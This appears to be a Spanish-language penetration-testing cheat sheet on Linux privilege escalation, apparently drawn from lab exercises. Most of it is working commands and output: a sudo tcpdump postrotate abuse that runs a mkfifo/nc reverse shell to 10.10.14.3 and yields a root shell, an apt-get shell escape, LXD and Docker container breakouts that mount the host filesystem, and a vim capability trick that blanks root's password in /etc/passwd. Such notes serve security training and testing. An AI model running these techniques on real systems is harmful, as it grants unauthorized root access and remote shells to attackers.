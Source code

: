 
## Special Permissions

```c
$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```

```c
$ find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
```

### GTFOBins

```c
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

## Sudo Rights Abuse

```c
$ sudo -l

Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

```c
$ man tcpdump

<SNIP> 
-z postrorate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```

```c
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

```c
$  cat /tmp/.test

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.3 443 >/tmp/f
```

```c
$ sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root

dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```

```c
$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@NIX02:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

## Privileged Groups

### LXC / LXD

```c
$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

```c
$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\ Alpine/
```

```c
$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```

```c
$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

```c
$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

```c
$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

```c
$ lxc start r00t
$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

### Docker

```c
docker run -v /root:/mnt -it ubuntu
```

### Disk

Los usuarios dentro del grupo de discos tienen acceso completo a cualquier dispositivo contenido en ``/dev``, como ``/dev/sda1``, que suele ser el dispositivo principal utilizado por el sistema operativo. Un atacante con estos privilegios puede utilizar ``debugfs`` para acceder a todo el sistema de archivos con privilegios de nivel root. Al igual que con el ejemplo del grupo Docker, esto podría ser aprovechado para recuperar claves SSH, credenciales o para agregar un usuario.

### ADM

```c
$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```

## Capabilities

#### Set Capability


```c
$ sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic
```

| **Capability**         | **Description**                                                                                                                                                        |
| ---------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_sys_admin`        | Permite realizar acciones con privilegios administrativos, como modificar archivos del sistema o cambiar la configuración del sistema.                                 |
| `cap_sys_chroot`       | Permite cambiar el directorio raíz del proceso actual, permitiéndole acceder a archivos y directorios que de otro modo serían inaccesibles.                            |
| `cap_sys_ptrace`       | Permite adjuntar y depurar otros procesos, permitiendo potencialmente obtener acceso a información sensible o modificar el comportamiento de otros procesos.           |
| `cap_sys_nice`         | Permite subir o bajar la prioridad de los procesos, permitiéndole potencialmente acceder a recursos que de otro modo estarían restringidos.                            |
| `cap_sys_time`         | Permite modificar el reloj del sistema, permitiendo potencialmente manipular marcas de tiempo o hacer que otros procesos se comporten de forma inesperada.             |
| `cap_sys_resource`     | Permite modificar los límites de recursos del sistema, como el número máximo de descriptores de archivo abiertos o la cantidad máxima de memoria que se puede asignar. |
| `cap_sys_module`       | Permite cargar y descargar módulos del kernel, permitiendo potencialmente modificar el comportamiento del sistema operativo u obtener acceso a información sensible.   |
| `cap_net_bind_service` | Permite enlazarse a puertos de red, permitiendo potencialmente obtener acceso a información sensible o realizar acciones no autorizadas.                               |
Varias capalibities de Linux pueden ser utilizadas para escalar los privilegios de un usuario a root, incluyendo:

| **Capability**     | **Description**                                                                                                                                                                                                                                   |
| ------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `cap_setuid`       | Permite a un proceso establecer su ID de usuario efectivo, que puede utilizarse para obtener los privilegios de otro usuario, incluido el usuario root.                                                                                           |
| `cap_setgid`       | Permite establecer su ID de grupo efectivo, que puede utilizarse para obtener los privilegios de otro grupo, incluido el grupo raíz.                                                                                                              |
| `cap_sys_admin`    | Esta capacidad proporciona una amplia gama de privilegios administrativos, incluida la posibilidad de realizar muchas acciones reservadas al usuario root, como modificar la configuración del sistema y montar y desmontar sistemas de archivos. |
| `cap_dac_override` | Permite eludir las comprobaciones de permisos de lectura, escritura y ejecución de archivos.                                                                                                                                                      |
#### Enumerating Capabilities

```c
$ find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep
```

#### Exploitation

```c
$ getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

```c
$ cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash
```

```c
$ /usr/bin/vim.basic /etc/passwd
```

```c
$ echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
$ cat /etc/passwd | head -n1

root::0:0:root:/root:/bin/bash
```